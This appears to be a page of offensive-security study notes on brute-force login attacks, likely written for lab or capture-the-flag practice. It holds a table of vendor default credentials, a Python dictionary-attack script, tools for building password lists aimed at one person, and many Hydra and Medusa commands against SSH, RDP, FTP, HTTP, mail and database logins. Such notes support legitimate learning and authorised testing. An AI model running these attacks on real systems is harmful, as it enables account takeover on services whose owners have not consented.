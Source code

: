 ```yaml
---
layout: default
title: Brute Force Attacks
permalink: /Web/brute_force/
---
```


## Default Passwords
Some examples of default passwords:
{% raw %}
| Device/Manufacturer    | Default Username | Default Password | Device Type                     |
|------------------------|------------------|------------------|---------------------------------|
| Linksys Router         | admin            | admin            | Wireless Router                 |
| D-Link Router          | admin            | admin            | Wireless Router                 |
| Netgear Router         | admin            | password         | Wireless Router                 |
| TP-Link Router         | admin            | admin            | Wireless Router                 |
| Cisco Router           | cisco            | cisco            | Network Router                  |
| Asus Router            | admin            | admin            | Wireless Router                 |
| Belkin Router          | admin            | password         | Wireless Router                 |
| Zyxel Router           | admin            | 1234             | Wireless Router                 |
| Samsung SmartCam       | admin            | 4321             | IP Camera                       |
| Hikvision DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
| Axis IP Camera         | root             | pass             | IP Camera                       |
| Ubiquiti UniFi AP      | ubnt             | ubnt             | Wireless Access Point           |
| Canon Printer          | admin            | admin            | Network Printer                 |
| Honeywell Thermostat   | admin            | 1234             | Smart Thermostat                |
| Panasonic DVR          | admin            | 12345            | Digital Video Recorder (DVR)   |
{% endraw %}
SecLists maintains a list of common usernames at [top-usernames-shortlist.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt).

## Utilizing Wordlists

- Publicly Available Lists: Repositories like [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords) offer various wordlists catering to various attack scenarios.
- Custom-Built Lists: We can craft our wordlists by leveraging information gleaned during reconnaissance.

### Dictionary Attack

Example python script for dictionary attack:
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
We can costumize wordlists based on the password policy:
```
grep -E '^.{8,}$' darkweb2017-top10000.txt > darkweb2017-minlength.txt
grep -E '[A-Z]' darkweb2017-minlength.txt > darkweb2017-uppercase.txt
grep -E '[a-z]' darkweb2017-uppercase.txt > darkweb2017-lowercase.txt
grep -E '[0-9]' darkweb2017-lowercase.txt > darkweb2017-number.txt
```
These commands:
- Filter for passwords containing at least 8 characters.
- Enforces at least one uppercase letter.
- Enforces at least one lowercase letter.
- Enforces that passwords containing at least one numerical digit.

*Note: Many users reuse passwords across multiple online accounts, so breached passwords can be useful.*

### Custom Wordlists
#### Username Anarchy
```
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```
```
./username-anarchy Jane Smith > jane_smith_usernames.txt
```
#### CUPP
After we employed Username Anarchy to generate a list of potential usernames, we can use CUPP to complement this with a targeted password list.
```
sudo apt install cupp -y
```
We can one gather this valuable intelligence for a target:
- Social Media
- Company Websites
- Public Records
- News Articles and Blogs

Open interactive mode:
```
cupp -i
```
After we generated a list, we can use grep to filter that password list to match a certain policy:
```
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```
## Hydra
It is a versatile tool that can brute-force a wide range of services, including web applications, remote login services like SSH and FTP, and even databases.
Hydra's basic syntax:
```
hydra [login_options] [password_options] [attack_options] [service_options]
```
Few examples:
- FTP: `hydra -l admin -P /path/to/password_list.txt ftp://$ip`, `hydra -L usernames.txt -P passwords.txt -s $port -V ftp.example.com ftp`
- SSH: `hydra -l root -P /path/to/password_list.txt ssh://$ip`, `hydra -l root -p toor -M targets.txt ssh`
- HTTP-GET (Basic HTTP Authentication): `hydra -L usernames.txt -P passwords.txt www.example.com http-get`, `hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt $ip http-get / -s $port`
- HTTP-POST: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`,`hydra -l admin -P /path/to/password_list.txt $ip http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"`
- SMTP: `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`
- POP3: `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`
- IMAP: `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`
- MySQL: `hydra -l root -P /path/to/password_list.txt mysql://$ip`
- RDP: `hydra -l admin -P /path/to/password_list.txt rdp://$ip`, `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 $ip rdp`

### Constructing the params String (HTTP-POST)
This string encapsulates the data that will be sent to the server with each login attempt, mimicking a legitimate form submission.
- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

## Medusa
```
medusa [target_options] [credential_options] -M module [module_options]
```
Few examples:
- SSH: `medusa -h $ip -n $port -U usernames.txt -P passwords.txt -M ssh -t 3`, `medusa -h $ip -u user -P passwords.txt -M ssh`
- HTTP-GET (Basic HTTP Authentication): `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET`
- `medusa -h $ip -U usernames.txt -e ns -M service_name`: Perform checks for empty passwords (-e n) and passwords matching the username (-e s).
